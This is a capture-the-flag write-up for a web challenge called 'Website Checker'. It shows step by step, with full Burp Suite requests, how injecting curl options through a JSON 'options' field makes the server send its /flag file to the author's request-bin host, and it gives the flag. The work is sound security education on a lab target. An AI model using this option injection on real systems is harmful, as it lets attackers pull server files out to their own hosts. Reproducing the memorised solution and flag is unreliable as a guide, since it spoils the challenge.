


# Website Checker

## Description

> Is a website not working and you don't know if the problem is on your end or the webiste? I'll help you, use this website checker. Note: flag in /flag.
>
> https://website-checker.bsides.shellmates.club

## Write-Up


We intercept request using burpsuit :

```
POST / HTTP/1.1
Host: website-checker.bsides.shellmates.club
Content-Length: 55
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://website-checker.bsides.shellmates.club
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://website-checker.bsides.shellmates.club/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"host":"https://bsides.shellmates.club/","options":{}}
```

and response : 

```
HTTP/1.1 200 OK
server: gunicorn
date: Fri, 05 May 2023 20:39:00 GMT
content-type: text/html; charset=utf-8
content-length: 37
connection: close

{"statusCode": "200", "passed": true}
```

Now, to get more information about the server and on what does it run, let's try to intercept a request from the server. The server executes a request when testing the connectivity of a website. So, let's use `ngrok` or `request_bin` to get the request infos :

```
Host: enmsc59o7zw5.x.pipedream.net
X-Amzn-Trace-Id: Root=1-645582e1-4de5995438e449be5ed35552
user-agent: curl/8.0.1
accept: */*
```



As we saw, the `options` attribute is an options for a curl command, so let's try to use to execute a command :

```
POST / HTTP/1.1
Host: website-checker.bsides.shellmates.club
Content-Length: 131
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://website-checker.bsides.shellmates.club
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://website-checker.bsides.shellmates.club/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"host":"https://enmsc59o7zw5.x.pipedream.net/","options":{
"-X": "POST",
"-d": "hello"
}}
```

The response in requestbin :

```
Host: enmsc59o7zw5.x.pipedream.net
X-Amzn-Trace-Id: Root=1-64558691-1fa6cdf43aa521e268ef106b
Content-Length: 5
user-agent: curl/8.0.1
accept: */*
content-type: application/x-www-form-urlencoded

"root":
"hello": ""
```

Since this worked, now let's find an option to get the `/flag` from the server.
From here, and when checking the `curl` options, we find :

```
└─$ curl --help
Usage: curl [options...] <url>
 -d, --data <data>          HTTP POST data
 -f, --fail                 Fail fast with no output on HTTP errors
 -h, --help <category>      Get help for commands
 -i, --include              Include protocol response headers in the output
 -o, --output <file>        Write to file instead of stdout
 -O, --remote-name          Write output to a file named as the remote file
 -s, --silent               Silent mode
 -T, --upload-file <file>   Transfer local FILE to destination
 -u, --user <user:password> Server user and password
 -A, --user-agent <name>    Send User-Agent <name> to server
 -v, --verbose              Make the operation more talkative
 -V, --version              Show version number and quit

This is not the full help, this menu is stripped into categories.
Use "--help category" to get an overview of all categories.
For all options use the manual or "--help all".
```

The most interesting one :

```
 -T, --upload-file <file>   Transfer local FILE to destination
```

We can use it to get the `/flag` :

In Burpsuit :

```
POST / HTTP/1.1
Host: website-checker.bsides.shellmates.club
Content-Length: 103
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://website-checker.bsides.shellmates.club
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://website-checker.bsides.shellmates.club/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"host":"https://enmsc59o7zw5.x.pipedream.net/","options":{
"-X": "POST",
"--upload-file":"/flag"
}}
```

Response in request bin :



## Flag

shellmates{Curl_4nd_1t5_m4g1c4l_0Pt10n$$}

## More Information

 - https://reqbin.com/req/c-g5d14cew/curl-post-example
